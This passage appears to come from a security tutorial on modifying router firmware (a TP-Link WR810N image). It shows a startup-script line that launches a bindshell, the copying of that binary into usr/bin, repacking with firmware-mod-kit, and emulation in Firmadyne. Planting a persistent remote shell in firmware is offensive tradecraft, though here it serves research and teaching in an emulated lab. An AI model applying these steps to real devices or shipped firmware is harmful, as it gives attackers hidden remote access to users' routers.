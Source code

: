 
	/usr/bin/httpd &

	.. snip ..


	#
	# Start our Bindshell
	#

	/usr/bin/bindshell &


We will also need to move our bindshell into that location.

	$ sudo cp ../../bindshell usr/bin/
	$ ls -la usr/bin
	total 1704
	drwxr-xr-x 2 root root    4096 Jul  5 19:19 .
	drwxr-xr-x 4 root root    4096 May  8  2016 ..
	lrwxrwxrwx 1 root root      17 Jul  5 15:32 [ -> ../../bin/busybox
	lrwxrwxrwx 1 root root      17 Jul  5 15:32 arping -> ../../bin/busybox
	-rwxr-xr-x 1 root root   51266 Jul  5 19:19 bindshell
	-rwxr-xr-x 1 root root 1568272 May  8  2016 httpd
	-rwxr-xr-x 1 root root  114408 May  8  2016 lld2d
	lrwxrwxrwx 1 root root      17 Jul  5 15:32 logger -> ../../bin/busybox
	lrwxrwxrwx 1 root root      17 Jul  5 15:32 test -> ../../bin/busybox
	lrwxrwxrwx 1 root root      17 Jul  5 15:32 tftp -> ../../bin/busybox

After our startup script is modified and our binary is in place, we
can re-package our firmware.  We use the firmware-mode-kit build-firmware
script for this:

	$ sudo ./build-firmware.sh wr810nv2_us_3_16_9_up_boot\(160509\) -nopad -min

	.. snip ..

	Done
	Finished!
	New firmware image has been saved to:
	/home/oit/tools/firmware-mod-kit/wr810nv2_us_3_16_9_up_boot(160509)/new-firmware.bin


## Emulate The Modified Firmware with Firmadyne

The moment of truth is running the modified firmware using Firmadyne. We can use
the [Firmware Analysis Toolkit](https://github.com/attify/firmware-analysis-toolkit)
to speed up the process:


	$ ./fat.py

	.. snip ..


	Warning: invalid flag 0x0000 of partition table 4 will be corrected by w(rite)
	mke2fs 1.42.9 (4-Feb-2014)
	Please check the makeImage function
	Everything is done for the image id 6
	Setting up the network connection
	Password for user firmadyne:
	qemu: terminating on signal 2 from pid 13694
	Querying database for architecture... mipseb
	Running firmware 6: terminating after 60 secs...
	Bad SWSTYLE=0x04
	Bad SWSTYLE=0x04
	Inferring network...
	Interfaces: [('br0', '192.168.0.254')]
	Done!
